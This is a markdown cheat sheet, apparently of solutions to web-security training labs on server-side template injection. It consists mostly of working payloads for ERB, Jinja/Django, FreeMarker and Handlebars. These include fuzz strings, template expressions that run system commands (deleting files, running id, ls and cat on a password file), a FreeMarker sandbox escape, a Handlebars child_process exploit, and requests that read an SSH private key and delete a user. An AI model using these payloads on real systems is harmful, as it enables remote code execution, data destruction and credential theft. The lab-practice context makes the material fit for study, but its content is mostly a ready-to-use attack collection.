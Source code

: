 # SSTI : Server-side template injection 


### Basic server-side template injection
Payload
```
Fuzz : ${{<%[%'"}}%\.
ERB  : syntax <%= someExpression %> 

https://lab.net/?message=<%=+system("rm+/home/carlos/morale.txt")+%25>


```
### Server-side template injection with information disclosure via user-supplied objects
Payload
```
Fuzz : ${{<%[%'"}}%\.

<p>Hurry! Only {{product.stock}} left of {{product.name}} at {{product.price}}.{{settings.SECRET_KEY}}</p>
```

### Server-side template injection using documentation
Payload
```
<p>Hurry! Only ${product.stock} left of ${product.name} at ${product.price}.HELLOO ${"freemarker.template.utility.Execute"?new()("rm -rf morale.txt")}</p>
```

### Server-side template injection in an unknown language with a documented exploit
```
FUZZ : ${{<%[%'"}}%\


"Handlebars server-side template injection". You should find a well-known exploit posted by @Zombiehelp54.

wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```

### Server-side template injection in a sandboxed environment
Payload 
```html

<p>Hurry! Only ${product.stock} left of ${product.name} at ${product.price}.Hello 

<#assign classloader=product.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}



<#assign classloader=product.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("ls -l")}


<#assign classloader=product.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("cat my_password.txt")}

</p>
```


### Server-side template injection with a custom exploit

Payload
```
1.Upload txt file and see the error

PHP Fatal error:  Uncaught Exception: Uploaded file mime type is not an image: text/plain in /home/carlos/User.php:28
Stack trace:
#0 /home/carlos/avatar_upload.php(19): User->setAvatar(('/tmp/hello.txt', 'text/plain'))
#1 {main}
  thrown in /home/carlos/User.php on line 28


blog-post-author-display=user.setAvatar('/home/carlos/avatar_upload.php',+'image/png')&csrf=XOL4b5UsK71HH2PxvpjIBq81N1qdKSYX





blog-post-author-display=user.setAvatar('/home/carlos/.ssh/id_rsa',+'image/png')&csrf=XOL4b5UsK71HH2PxvpjIBq81N1qdKSYX


blog-post-author-display=user.gdprDelete()&csrf=XOL4b5UsK71HH2PxvpjIBq81N1qdKSYX



```